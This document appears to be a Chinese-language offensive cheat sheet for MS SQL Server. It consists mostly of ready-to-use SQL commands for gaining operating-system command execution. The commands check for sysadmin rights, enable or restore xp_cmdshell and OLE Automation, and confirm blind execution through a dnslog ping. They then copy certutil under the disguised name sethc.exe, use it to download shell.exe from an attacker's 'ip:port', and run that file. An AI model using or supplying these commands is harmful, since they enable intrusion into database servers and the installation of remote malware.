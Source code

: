 # mssql_root

---

判断权限(是否sa)

```
1=(select is_srvrolemember('sysadmin'))
host_name()!=@@servername
```

1.开启xp_cmdshell（1开启，0关闭）

```
EXEC sp_configure 'show advanced options',1 RECONFIGURE EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE;
```

执行命令

```
exec master..xp_cmdshell "whoami"
```

如报错：未能找到存储过程 'master..xp_cmdshell'

```
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int
sp_addextendedproc 'xp_cmdshell','xpsql70.dll'
```



2.开启sp_oacreate

```
exec sp_configure 'show advanced options', 1;  RECONFIGURE;  exec sp_configure 'Ole Automation Procedures', 1;  RECONFIGURE;
```

sp_oacreate执行命令无回显，需要使用dnslog平台进行判断

```
Declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'ping who.xxxx.dnslog.cn';
```
将certutil复制导temp下

```
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o,'copyfile',null,'C:\Windows\System32\certutil.exe' ,'c:\windows\temp\sethc.exe';
```

利用certutil传马

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\sethc.exe -urlcache -split -f "http://ip:port/shell.exe" C:\Windows\Temp\shell.exe'
```
运行
```
Declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c shell.exe';
```